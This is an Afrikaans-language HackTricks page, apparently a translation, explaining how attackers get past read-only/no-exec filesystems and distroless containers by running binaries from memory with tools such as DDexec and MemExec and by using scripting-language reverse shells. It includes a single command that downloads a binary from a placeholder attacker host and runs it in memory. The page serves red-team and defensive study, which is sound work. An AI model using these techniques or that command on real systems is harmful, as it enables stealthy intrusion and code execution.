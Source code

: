 # Bypass FS beskerming: lees-slegs / geen-uitvoer / Distroless

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking-loopbaan** en die onhackbare wil hack - **ons is aan die aanstel!** (_vloeiende Pools geskrewe en gespreek vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In die volgende videos kan jy die tegnieke wat op hierdie bladsy genoem word, meer diepgaand verduidelik vind:

* [**DEF CON 31 - Verkenning van Linux-geheue-manipulasie vir Steek en Ontwyking**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stiekeme indringings met DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## lees-slegs / geen-uitvoer scenario

Dit word al hoe meer algemeen om Linux-masjiene te vind wat met **lees-slegs (ro) lêerstelselbeskerming** gemonteer is, veral in houers. Dit is omdat dit maklik is om 'n houer met 'n ro lêerstelsel te hardloop deur **`readOnlyRootFilesystem: true`** in die `securitycontext` in te stel:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Nietemin, selfs as die lêerstelsel as ro gemonteer is, sal **`/dev/shm`** steeds skryfbaar wees, so dit is vals dat ons niks op die skyf kan skryf nie. Hierdie vouer sal egter **gemonteer word met geen-uitvoerbeskerming**, so as jy 'n binêre lêer hier aflaai, **sal jy dit nie kan uitvoer nie**.

{% hint style="warning" %}
Vanuit 'n rooi span-perspektief maak dit dit **ingewikkeld om binêre lêers af te laai en uit te voer** wat nie reeds in die stelsel is nie (soos agterdeure of enumereerders soos `kubectl`).
{% endhint %}

## Maklikste omseiling: Skripte

Let daarop dat ek van binêre lêers gepraat het, jy kan **enige skrip uitvoer** solank die tolk binne die masjien is, soos 'n **skulpskrip** as `sh` teenwoordig is of 'n **python-skrip** as `python` geïnstalleer is.

Nietemin is dit nie net genoeg om jou binêre agterdeur of ander binêre gereedskap wat jy mag nodig hê, uit te voer nie.

## Geheue-omseilings

As jy 'n binêre lêer wil uitvoer maar die lêerstelsel dit nie toelaat nie, is die beste manier om dit te doen deur dit vanaf die geheue uit te voer, aangesien die **beskerming nie daarop van toepassing is nie**.

### FD + exec-systeemafronding

As jy kragtige skripskryfmasjiene binne die masjien het, soos **Python**, **Perl**, of **Ruby**, kan jy die binêre lêer aflaai om vanaf die geheue uit te voer, dit in 'n geheue-lêerbeskrywer stoor (`create_memfd`-systeemafronding), wat nie deur daardie beskerming beskerm gaan word nie, en dan 'n **`exec`-systeemafronding** aanroep wat die **fd as die lêer om uit te voer** aandui.

Hiervoor kan jy maklik die projek [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) gebruik. Jy kan dit 'n binêre lêer deurgee en dit sal 'n skrip in die aangeduide taal genereer met die **binêre lêer saamgedruk en b64-gekodeer** met die instruksies om dit te **dekodeer en te ontspan** in 'n **fd** wat geskep is deur die `create_memfd`-systeemafronding en 'n oproep na die **exec**-systeemafronding om dit uit te voer.

{% hint style="warning" %}
Dit werk nie in ander skripskryftale soos PHP of Node nie omdat hulle geen **standaard manier het om rou systeemafrondings** vanuit 'n skrip te roep nie, sodat dit nie moontlik is om `create_memfd` te roep om die **geheue-fd** te skep om die binêre te stoor nie.

Verder sal dit nie werk om 'n **gewone fd** met 'n lêer in `/dev/shm` te skep nie, omdat jy nie toegelaat sal word om dit uit te voer nie omdat die **geen-uitvoerbeskerming** van toepassing sal wees.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is 'n tegniek wat jou in staat stel om die geheue van jou eie proses te **verander deur sy** **`/proc/self/mem`** te oorskryf.

Daarom kan jy deur die **samestellingskode te beheer** wat deur die proses uitgevoer word, 'n **shellkode** skryf en die proses "muteer" om **enige willekeurige kode** uit te voer.

{% hint style="success" %}
**DDexec / EverythingExec** sal jou in staat stel om jou eie **shellkode** of **enige binêre** vanuit **geheue** te laai en **uit te voer**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Vir meer inligting oor hierdie tegniek, kyk op die Github of:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) is die natuurlike volgende stap van DDexec. Dit is 'n **DDexec shellcode gedemoniseer**, sodat elke keer as jy 'n **verskillende binêre lêer wil hardloop** hoef jy nie DDexec weer te begin nie, jy kan net memexec shellcode hardloop via die DDexec tegniek en dan **met hierdie duiwel kommunikeer om nuwe binêre lêers te stuur om te laai en te hardloop**.

Jy kan 'n voorbeeld vind van hoe om **memexec te gebruik om binêre lêers van 'n PHP omgekeerde dop te hardloop** in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Met 'n soortgelyke doel as DDexec, laat die [**memdlopen**](https://github.com/arget13/memdlopen) tegniek 'n **makliker manier toe om binêre lêers in geheue te laai** om hulle later uit te voer. Dit kan selfs toelaat om binêre lêers met afhanklikhede te laai.

## Distroless Omgewing

### Wat is distroless

Distroless houers bevat slegs die **noodsaaklike komponente om 'n spesifieke aansoek of diens te hardloop**, soos biblioteke en tyduitvoeringsafhanklikhede, maar sluit groter komponente uit soos 'n pakkettebestuurder, skul, of stelselnutsprogramme.

Die doel van distroless houers is om die **aanvalsvlak van houers te verminder deur onnodige komponente te elimineer** en die aantal kwesbaarhede wat uitgebuit kan word, te minimeer.

### Omgekeerde Dop

In 'n distroless houer mag jy dalk **nie eers `sh` of `bash`** vind om 'n gewone dop te kry nie. Jy sal ook nie binêre lêers soos `ls`, `whoami`, `id`... vind nie, alles wat jy gewoonlik in 'n stelsel hardloop.

{% hint style="warning" %}
Daarom sal jy **nie** in staat wees om 'n **omgekeerde dop** te kry of die stelsel te **opnoem** soos jy gewoonlik doen nie.
{% endhint %}

Maar as die gekompromitteerde houer byvoorbeeld 'n flask-web hardloop, dan is Python geïnstalleer, en dus kan jy 'n **Python omgekeerde dop** kry. As dit node hardloop, kan jy 'n Node omgekeerde dop kry, en dieselfde met byna enige **skripseltaal**.

{% hint style="success" %}
Deur die skripseltaal te gebruik, kan jy die stelsel **opnoem** deur van die taalvermoëns gebruik te maak.
{% endhint %}

As daar **geen `read-only/no-exec`** beskerming is nie, kan jy jou omgekeerde dop misbruik om **binêre lêers in die lêersisteem te skryf** en hulle **uit te voer**.

{% hint style="success" %}
Tog sal hierdie soort houers gewoonlik hierdie beskermings hê, maar jy kan die **vorige geheue-uitvoeringstegnieke gebruik om dit te omseil**.
{% endhint %}

Jy kan **voorbeelde** vind van hoe om **sekere RCE-kwesbaarhede te misbruik** om skripseltaal **omgekeerde dops** te kry en binêre lêers van geheue uit te voer in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hakerloopbaan** en die onhakbare wil hak - **ons is aan die aanstel!** (_vloeiende Pools geskrewe en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
